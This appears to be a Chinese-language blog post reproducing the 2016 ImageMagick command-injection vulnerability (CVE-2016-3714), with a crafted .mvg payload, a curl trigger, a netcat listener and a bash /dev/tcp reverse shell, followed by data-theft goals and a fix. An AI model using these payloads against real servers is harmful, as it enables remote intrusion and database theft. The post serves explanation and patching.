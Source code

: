 ```yaml
---
title: ImageMagick远程命令执行漏洞
id: 297
categories:
  - linux
  - php
date: 2016-05-19 23:26:42
tags:
---
```


最近ImageMagick爆出了命令执行漏洞，此漏洞允许攻击者通过上传恶意构造的图像文件，在目标服务器执行任意代码。参见中文版说明：

> [CVE-2016-3714 - ImageMagick 命令执行分析](http://drops.wooyun.org/papers/15589)
>   [安全预警：ImageMagick图象处理软件存在远程代码执行(CVE-2016-3714)](http://www.freebuf.com/vuls/103504.html)

## 漏洞重现

1 先构造一个.mvg格式的图片，在其内容中可以注入任意命令。这里命名为`test.gif`：

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://"|curl http://127.0.0.1/hasbug; ")'
    pop graphic-context
    `</pre>

    第三行就是注入的命令，用双引号作为注入分隔。后面的`curl http://127.0.0.1/hasbug;`就是可执行的命令。

    2 测试漏洞的脚本`http://localhost/test.php`，只需要一行代码：

    <pre>`&lt;?php
    new Imagick($_FILES['file']['tmp_name']);
    `</pre>

    3 在有漏洞的网站触发此执行漏洞：

    <pre>`$ curl -F "file=@test.gif" "http://localhost/test.php"
    `</pre>

    现在目标服务器就会执行注入的命令 `curl http://127.0.0.1/hasbug;`

    ## 漏洞影响

    上面注入的脚本`curl`只是试探一下，我们可以通过反向shell的技巧执行任意命令。

    1 在执行前，需要在自己的服务器上建立命令执行平台：

    <pre>`$ nc -l 127.0.0.1:1234 -vvv
    `</pre>

    2 要注入的反向shell命令，替换`curl`的试探命令：

    <pre>`bash -i &gt; /dev/tcp/127.0.0.1/1234 0&lt;&amp;1 2&gt;&amp;1

反向shell的作用是请求上面`nc`命令监听的`127.0.0.1:1234`，并且执行`nc`后续输入的远程命令。

> [Linux建立反向shell的几种方式](http://xkon.github.io/2015/09/04/Linux%E5%BB%BA%E7%AB%8B%E5%8F%8D%E5%90%91shell%E7%9A%84%E5%87%A0%E7%A7%8D%E6%96%B9%E5%BC%8F/)

3 由于服务器执行PHP的用户默认是`nobody`，对web目录一般都没有写权限。那么能干什么呢？

1.  查看程序源代码
2.  获得mysql数据库的访问权限
3.  执行mysqldump等数据导出命令

这个漏洞的主要的危害是数据泄漏。

据传 http://nulled.io/ 就是中了ImageMagick这个漏洞，导致9G大的数据库泄漏了。

> [国外知名黑客论坛被黑，疑因imageTragick漏洞](http://www.freebuf.com/news/104757.html)

## 漏洞修复

这个漏洞影响ImageMagick 6.9.3-9以前的所有版本，可以通过更新ImageMagick库，或者在程序中用`getimagesize()`先对上传文件检验一下。

详细方法见开头的分析链接。